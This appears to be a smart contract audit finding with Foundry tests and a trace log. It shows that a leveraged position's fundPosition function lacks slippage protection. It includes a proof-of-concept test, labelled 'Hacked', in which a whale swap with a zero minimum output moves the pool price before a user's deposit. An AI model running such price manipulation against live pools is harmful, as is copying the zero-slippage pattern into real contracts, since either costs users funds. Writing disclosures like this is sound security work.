 ```solidity
function testFundPosition() public {

      address USDT = 0xf0F161fDA2712DB8b566946122a5af183995e2eD; 
      vm.label(USDT,"USDT"); 
      deal(USDT, address(this), 3000e6);
      IERC20Upgradeable(USDT).approve(address(position), 3000e6);
      position.fundPosition(IERC20Upgradeable(USDT), 3000e6);

    }
```

forge test --match-test testFundPosition --match-contract ModeWethUSDTLeveredPositionTest -vvvvvv | format > testFundPosition.t_240616_1400.log
In this case, with 3000 USDT, user got 832676378927207566 WETH = 0.83267638  

Log: 
```
  │   ├─ [2457] 0x4200000000000000000000000000000000000006::balanceOf(0xD8Abc2be7AD5D17940112969973357a3a3562998) [staticcall]
    │   │   │   │   │   └─ ← [Return] 11272340028380907085 [1.127e19]
    │   │   │   │   ├─ [2562] USDT::balanceOf(0xD8Abc2be7AD5D17940112969973357a3a3562998) [staticcall]
    │   │   │   │   │   └─ ← [Return] 57636305345 [5.763e10]
    │   │   │   │   ├─ [27701] 0x4200000000000000000000000000000000000006::transfer(LeveredPosition: [0xfF00b0380C38D5500aa7954c9f09f52B3c1d89DB], 832676378927207566 [8.326e17])
    │   │   │   │   │   ├─ emit Transfer(from: 0xD8Abc2be7AD5D17940112969973357a3a3562998, to: LeveredPosition: [0xfF00b0380C38D5500aa7954c9f09f52B3c1d89DB], value: 832676378927207566 [8.326e17])
    │   │   │   │   │   └─ ← [Return] true
```

I also created a test case to show the big slippage for example 10%. 
```solidity
function testFundPosition_Hacked() public {

      address USDT = 0xf0F161fDA2712DB8b566946122a5af183995e2eD; 
      address Weth = 0x4200000000000000000000000000000000000006; 
      vm.label(USDT,"USDT"); 
      deal(USDT, address(this), 3000e6);

      deal(USDT, USDTWhale, 100000e6); 
      address AlgrebraSwapRouter = 0xAc48FcF1049668B285f3dC72483DF5Ae2162f7e8; 

      vm.startPrank(USDTWhale);
      IERC20Upgradeable(USDT).approve(address(AlgrebraSwapRouter), 50000e6);
      ISwapRouter.ExactInputSingleParams memory params = ISwapRouter.ExactInputSingleParams(
        address(USDT),
        Weth,
        address(this),
        block.timestamp,
        50000e6,
        0, // amountOutMinimum
        0 // limitSqrtPrice
      );
      ISwapRouter(AlgrebraSwapRouter).exactInputSingle(params);
      vm.stopPrank(); 


      IERC20Upgradeable(USDT).approve(address(position), 3000e6);
      position.fundPosition(IERC20Upgradeable(USDT), 3000e6);

    }


```